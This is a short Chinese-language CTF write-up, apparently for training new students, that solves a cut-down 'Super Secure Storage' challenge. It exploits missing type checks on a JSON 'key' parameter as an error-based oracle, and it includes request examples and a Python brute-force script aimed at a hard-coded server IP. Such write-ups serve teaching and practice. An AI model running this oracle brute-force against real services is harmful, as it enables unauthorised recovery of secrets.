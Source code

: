# WriteUp
Tokyo Westerns CTF 3rd 2017的[Super Secure Storage](https://ctftime.org/task/4560)的缩减版，拿来给新生做一下。首先利用未对参数key做类型校验，可以向后台发送List类型的key，然后利用ord(None)产生语法错误进行Oracle Attack。
利用过程
```
{"key": [null, null, null, null, null, null, null, null, null, null, null, null, null, null, null, null]} 500
{"key": ['0', null, null, null, null, null, null, null, null, null, null, null, null, null, null, null]} False
...
{"key": ['5', null, null, null, null, null, null, null, null, null, null, null, null, null, null, null]} 500
```
依次可以爆破每一个字节
爆破脚本
```
import requests
import json
import string
url='http://123.206.83.157:8000/getflag'
flag_key=''
key=[None]*16
headers={
	'Content-Type': 'application/json;charset=UTF-8'
}

for i in range(16):
	for j in string.letters+string.digits:
		key[i]=j
		data={
			'key':key
		}
		r=requests.post(url,data=json.dumps(data),headers=headers)
		if r.status_code==200:
			continue
		flag_key+=j
		print '[+]',flag_key
		break
```
最终得到key: `5ecur3pPYpyPYk3y`
